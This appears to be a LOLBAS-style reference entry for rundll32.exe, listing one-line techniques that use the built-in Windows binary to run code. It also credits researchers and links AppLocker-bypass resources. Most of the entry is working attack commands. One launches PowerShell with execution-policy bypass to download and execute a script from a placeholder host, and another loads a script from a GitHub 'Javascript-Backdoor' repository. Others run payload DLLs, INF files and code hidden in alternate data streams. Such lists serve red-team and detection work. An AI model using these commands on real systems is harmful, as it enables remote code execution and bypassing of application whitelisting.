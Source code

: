 ## Rundll32.exe

* Functions: Execute, Read ADS

```
rundll32.exe AllTheThingsx64,EntryPoint    

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 shell32.dll,Control_RunDLL payload.dll

rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,

rundll32.exe advpack.dll,RegisterOCX calc.exe

rundll32.exe zipfldr.dll,RouteTheCall calc.exe

rundll32.exe url.dll,OpenURL "C:\test\calc.hta"

rundll32.exe url.dll,OpenURL "C:\test\calc.url"

rundll32.exe url.dll, FileProtocolHandler calc.exe

rundll32.exe ieframe.dll,OpenURL "C:\test\calc.url"

rundll32.exe shdocvw.dll,OpenURL "C:\test\calc.url"

rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1,   
     
rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain   
```
  
Acknowledgements:
* Casey Smith - @subtee
* Jimmy - @bohops
* Moriarty - @Moriarty_Meng
* Adam - @hexacorn
* Oddvar Moe - @oddvarmoe

Code sample:
* [AllTheThingsx64.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx64.dll)[1]     
* [AllTheThingsx86.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx86.dll)[1]     

Resources:
* https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 
    
    